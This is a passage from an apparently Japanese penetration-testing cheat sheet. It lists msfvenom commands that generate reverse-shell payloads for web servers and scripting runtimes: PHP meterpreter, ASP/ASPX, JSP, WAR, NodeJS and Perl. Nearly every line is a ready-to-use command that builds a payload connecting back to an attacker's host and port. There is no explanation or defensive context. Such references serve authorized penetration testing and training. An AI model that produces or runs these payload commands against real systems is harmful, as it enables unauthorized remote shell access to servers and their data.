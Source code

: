 {% code overflow="wrap" %}
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
{% endcode %}

### ASP/x

#### リバースシェル

{% code overflow="wrap" %}
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx
```
{% endcode %}

### JSP

#### リバースシェル

{% code overflow="wrap" %}
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp
```
{% endcode %}

### WAR

#### リバースシェル

{% code overflow="wrap" %}
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war
```
{% endcode %}

### NodeJS
```bash
msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)
```
## **スクリプト言語ペイロード**

### **Perl**

{% code overflow="wrap" %}
```bash
msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl
```
{% endcode %}
